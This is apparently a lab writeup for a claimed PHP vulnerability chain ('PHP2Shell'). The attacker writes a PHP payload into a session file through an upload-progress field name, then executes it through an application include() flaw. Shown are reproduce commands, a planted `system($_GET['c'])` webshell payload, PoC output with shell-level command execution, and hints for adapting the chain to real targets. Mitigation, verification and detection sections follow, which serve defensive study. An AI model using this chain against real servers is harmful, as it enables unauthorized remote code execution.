

# CVE-2026-109619 (claimed) - session.upload_progress poisoning -> include -> RCE

**Status: reproduced end-to-end in this lab (2026-10-21).**
The CVE id itself is not yet resolved by MITRE (`CVE_RECORD_DNE` at lab build
time) and no PHP advisory maps it to a specific core patch; PHP's emergency
security release for CVE-2026-109618/109619 is scheduled **2026-10-21
14:00 UTC** (claimed fixed versions: 8.5.12 / 8.4.27 / 8.3.36 / 8.2.35).
What *is* verifiable, and what this writeup proves with real output, is the
deterministic chain circulating under the "PHP2Shell" name. Treat the id
binding as **claimed**, not confirmed. See `../README.md` for the full
verification status table.

## TL;DR

| | |
|---|---|
| What | Attacker-controlled multipart **field name** lands verbatim inside the PHP session file; an app `include()` on a user path executes it |
| Primitive | File write of `<?php ... ?>` at a **known path** (`<save_path>/sess_<sid>`), no memory corruption |
| Auth | None (pre-auth) |
| Why "works on every PHP >= 5.4" | `session.upload_progress.enabled` defaults to On since PHP 5.4; the demos ride core behavior + an app sink, not a version-specific bug |
| Lab result on stock `php:8.4.26-apache` | `uid=33(www-data)` + flag, exit 0 |
| Lab result with `session.upload_progress.enabled = Off` | No execution, exit 1 |
| PoC | `poc/cve-2026-109619.py` (stdlib only) |

## How the chain works

PHP's session upload-progress feature (RFC1867 tracking) serializes an entry
for every multipart field whose name starts with `PHP_SESSION_UPLOAD_PROGRESS`:

```
upload_progress_<raw field name>|a:5:{s:10:"start_time"...}
```

The **field name is attacker-controlled and is written into the session file
unescaped** (the serialized length prefix protects the boundary, not the
content). Three properties make this lethal:

1. `session.use_strict_mode = 0` (default in many stacks, and in this lab)
   means the attacker picks the session id via `Cookie: PHPSESSID=...`, so
   the output path is known: `/var/lib/php/sessions/sess_<sid>`.
2. `session.upload_progress.cleanup = 0` (lab setting; `1` is the default
   and shrinks this to a race window during the upload) keeps the entry
   after the upload completes.
3. The application has an `include()` on a user-controlled path. The lab's
   naive `view.php` guard blocks `..` and stream wrappers but forgets
   absolute paths, which is exactly the mistake most demos exploit.

Request the include of the poisoned session file with `?c=<cmd>` and the
`<?php system($_GET['c']);?>` planted in the field name executes.

## Demo

Live recording against the lab (casts in `../evidence/`, rendered with
[agg](https://github.com/asciinema/agg)):



## Reproduce (from a clean clone)

```bash
docker compose up -d --build lab          # PixelVault on http://127.0.0.1:8088
python poc/cve-2026-109619.py --url http://127.0.0.1:8088
```

Actual output from this lab run (2026-10-21, Windows host, Docker Desktop):

```text
======================================================================
PoC CVE-2026-109619 - upload-progress session poisoning -> include -> RCE
======================================================================
[*] target     : http://127.0.0.1:8088/
[*] session id : 2268254214d30d7625339db0b375758f
[*] payload    : <?php system($_GET['c']);?>
[*] save path  : /var/lib/php/sessions

[1/2] POST /index.php  (multipart, Cookie: PHPSESSID=2268254214d30d7625339db0b375758f)
      -> HTTP 200

[3/4] GET view.php?tpl=/var/lib/php/sessions/sess_2268254214d30d7625339db0b375758f
      -> HTTP 200

[4] server response (payload executed inside the include):
----------------------------------------------------------------------
upload_progress___P2S_50d1dcb6__
uid=33(www-data) gid=33(www-data) groups=33(www-data)
flag{php2shell_lab_109619_chain}
|a:5:{s:10:"start_time";i:1792584156;s:14:"content_length";i:4383;s:15:"bytes_processed";i:4383;s:4:"done";b:1;s:5:"files";a:1:{...}}
----------------------------------------------------------------------

[+] PASS: remote code execution confirmed as the web user.
```

The raw serialized session blob visible in the response *is* the proof: the
attacker-chosen sid made the path predictable, and the key name became a PHP
payload. Full transcript: `../evidence/109619-vuln-client.txt`.

## What the lab deliberately adds (not core CVEs)

- `view.php`'s absolute-path `include()`: an **application bug**, needed as
  the execution fuse. On a real target you substitute any include sink
  (LFI, template engine, `page=` param), or win the `cleanup=1` race.
- `cleanup = 0`, `use_strict_mode = 0`: permissive lab settings chosen so
  the mechanism is deterministic for study. With stock defaults this
  becomes a timing race for the transient window during upload, which
  public "php2shell" scanner demos are reported not to reliably hit on
  hardened stacks.
- The 4 KB file part just keeps the multipart parser alive while the
  progress entry is written.

## Verification that the mitigation kills it

Same PoC, same code, against the `lab-fixed` service
(`docker compose --profile fixed up -d lab-fixed`, mount of
`mitigations/uploads-off.ini`):

```text
[4] server response (payload executed inside the include):
----------------------------------------------------------------------
----------------------------------------------------------------------

[-] no code execution: session poisoning did not run.
EXIT=1
```

And via `mitigations/quick-fix.sh` (full check -> apply -> PoC blocked ->
revert -> PoC passes again cycle) in `../evidence/quick-fix-test.txt`:

```text
### 1. --check before (expect: ENABLED)
[*] effective state (this SAPI): ENABLED (vulnerable surface)
### 2. apply
[+] drop-in: /usr/local/etc/php/conf.d/zz-php2shell-quickfix.ini
### 4. PoC CVE-2026-109619 after apply + apache reload
EXIT=1 (1 = not vulnerable = mitigation WORKS)
### 6. PoC after revert + reload
EXIT=0 (0 = vulnerable again = revert WORKS)
```

One directive, `session.upload_progress.enabled = Off`, removes the
attacker's file-write primitive for both claimed CVEs. Reload PHP afterwards
(`quick-fix.sh --restart`, or `docker restart` in a container).

## Detection

The exploit traffic has a unique signature: any multipart part named
`PHP_SESSION_UPLOAD_PROGRESS` in a **request** (it is only ever a response-side
concept in legit apps). WAF rules for Apache (`.htaccess`, ModSecurity),
lighttpd, FrankenPHP/Caddy and Cloudflare are in `../mitigations/`. Do **not**
block the `PHPSESSID` cookie: it breaks sessions and is not the primitive
(the progress entry can bind to a session with no cookie at all).

## Sources and credits

- Lab app, PoC skeleton, ASAN verification environment:
  [jaiswalakshansh/Reversing-Vulnerabilities](https://github.com/jaiswalakshansh/Reversing-Vulnerabilities),
  reworked for configurable ports, generic endpoints, verdict-based exit codes.
- Mitigation configs: [eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC](https://github.com/eness/php2shell-CVE-2026-109618-CVE-2026-109619-PoC)
  (`quick-fix.sh` is a complete rewrite of their truncated `run.sh`).
- Advisory coverage: watchTowr FAQ, cyberdaily, runzero (links in `../README.md`).
